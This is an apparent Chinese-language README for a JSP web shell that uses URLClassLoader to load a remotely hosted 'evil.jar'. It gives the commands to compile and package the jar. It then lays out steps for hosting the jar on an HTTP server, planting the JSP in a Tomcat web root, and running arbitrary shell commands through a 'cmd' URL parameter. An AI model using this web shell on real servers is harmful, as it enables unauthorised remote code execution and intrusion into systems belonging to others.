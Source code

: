 ### URLClassLoader加载远程jar的JSP WebShell

编译打包jar：
```
javac Evil.java
jar -cvf evil.jar Evil.class
```

使用：
```
1.把evil.jar放到可被访问的HTTP服务器，例：http://1.1.1.1:23232/evil.jar

2.修改evil.jar加载jar的url

3.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

4.在浏览器访问4.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/4.jsp?cmd=whoami

5.服务器将会执行相应的shell命令，最后回显
```